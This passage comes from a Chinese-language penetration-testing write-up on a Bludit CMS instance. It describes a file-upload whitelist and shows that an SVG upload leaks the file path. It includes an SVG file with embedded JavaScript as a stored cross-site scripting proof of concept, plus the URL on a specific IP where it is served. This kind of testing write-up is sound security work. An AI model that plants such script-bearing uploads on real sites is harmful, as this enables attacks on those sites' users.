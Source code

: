 

进入登录界面后，去看了下往年漏洞是否被修复了，测试了下，哦豁，那个文件上传漏洞被修复了。测试了几个文件上传点（文章logo上传，sitelogo上传），不行，它是白名单限制，只能上传gif / png / jpeg / jpg /svg格式的文件

![image-20210629170202496](/images/image-20210629170202496.png)

上传一个svg的文件可以获取文件的绝对路径

![image-20210629170319929](/images/image-20210629170319929.png)

可以上传svg后可以做的操作：

* 执行js代码

  svg内容：

  ```xml
  <?xml version="1.0" standalone="no"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
     <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
     <script type="text/javascript">
      alert(1");
     </script>
  </svg>
  ```

  然后访问http://119.45.4.159/bl-content/uploads/BLUDIT.svg
